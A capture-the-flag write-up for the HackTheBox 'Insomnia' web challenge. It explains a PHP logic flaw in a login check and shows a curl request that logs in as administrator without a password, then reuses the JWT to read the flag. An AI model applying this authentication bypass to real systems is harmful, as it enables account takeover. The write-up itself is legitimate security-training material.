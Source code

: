 ```yaml
---
title: "[HTB] Insomnia Writeup \U0001F4A4"
cover: >-
    https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/help-you-at-solving-hackthebox-htb-challenges-machines.png
categories:
    - [HackTheBox]
    - [CTF]
tags:
    - HTB
    - Web
    - HackTheBox
abbrlink: cab519b8
date: 2024-07-16 17:49:39
---
```


# 0x00 Challeng Info

It's a web challenge, so it gives us a website and the source code for us to analyze. Let's see the description first.

> Welcome back to Insomnia Factory, where you might have to work under the enchanting glow of the moon, crafting dreams and weaving sleepless tales.

Well, although it's not helpful, it's still a romantic setting for this challenge (you know, programmers & hackers always work at night).

# 0x01 Reconnaissance

Since it gave us the source code, we should check it out first. The most important thing is under the **controller directory** (`Insomnia/web_insomnia/Insomnia/app/Controllers`), because it's where the backend interact with users.

I check out the `ProfileController.php`, and find something interesting.

```php
if ($username == "administrator") {
    return view("ProfilePage", [
        "username" => $username,
        "content" => $flag,
    ]);
} else {
    $content = "Haven't seen you for a while";
    return view("ProfilePage", [
        "username" => $username,
        "content" => $content,
    ]);
}
```

So if we can login as **administrator**, then we can get the flag. Now the question is how we are able to do that. To know how, we should then find the answer in the login function, which is in `UserController.php`.

After analyzing the code, we can found that there's an logic error in the code that the developer doesn't notice it. In the `login()` function, the developer use `if (!count($json_data) == 2)` to check if the login data we passed has 2 arguments. But if we think it carefully, we can know that it's different to `if (count($json_data) !== 2)`. Here's are the differences.

1. `if (!count($json_data) == 2)`
    - First, it calculate `count($json_data)`, and it's an INT.
    - Then, the "!" negates the result we get. So if `count($json_data)` does not equals to 0, the expression will get a **false**. Anyways, it will get a **BOOL** as it's data type.
    - Finally, it checks whether the **BOOL** is equivalent to an **INT**, so the expression will always be a **false**, in other words, **the program will never go into this if statement**.
2. `if (count($json_data) !== 2)`
    - It calculate the `count($json_data)` and properly compare the number with 2.
    - So this is the correct way to check if the data count is legal.

The next thing you should know is everytime we sign in, the system will give us a token to verify our identitys. The following is the complete code of `ProfileController.php`

```php
<?php

namespace App\Controllers;

use App\Controllers\BaseController;
use CodeIgniter\HTTP\ResponseInterface;
use Config\Paths;
use Firebase\JWT\JWT;
use Firebase\JWT\Key;

class ProfileController extends BaseController
{
    public function index()
    {
        $token = (string) $_COOKIE["token"] ?? null;
        $flag = file_get_contents(APPPATH . "/../flag.txt");
        if (isset($token)) {
            $key = (string) getenv("JWT_SECRET");
            $jwt_decode = JWT::decode($token, new Key($key, "HS256"));
            $username = $jwt_decode->username;
            if ($username == "administrator") {
                return view("ProfilePage", [
                    "username" => $username,
                    "content" => $flag,
                ]);
            } else {
                $content = "Haven't seen you for a while";
                return view("ProfilePage", [
                    "username" => $username,
                    "content" => $content,
                ]);
            }
        }
    }
}
```

So the final step is to sign in as administrator and copy the token we get. Let's hack the planet!

# 0x02 Exploit

To sign in, I tried to use the browser to send the request first. But it won't work since the key "password" is still assigned a value of null string just like below. That way, we can't sign in due to the wrong password.

![Password is assigned](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240716214725811.png)

To bypass this, I use **curl** to help me to send the request. The payload is the URL and the data, which is the username.

```bash
curl http://94.237.51.8:32663/index.php/login --data-raw '{"username": "administrator"}'
```

And the terminal will shows the response, then we can copy the token just like this.

```bash
{"message":"Login Succesful","token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MjExMjMwODEsImV4cCI6MTcyMTE1OTA4MSwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIn0.fMLAS55mm69_aqQWEhehVlspjCvpfHJzOp4vy91Zjv8"}
```

The final step is going to `/index.php/profile` and paste the token we just got (by using the devtool to modify the token cookie). After refreshing the page, we can get the flag!

![Pwned](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240716215517124.png)

# 0x03 Pwned

```txt
HTB{I_just_want_to_sleep_a_little_bit!!!!!}
```
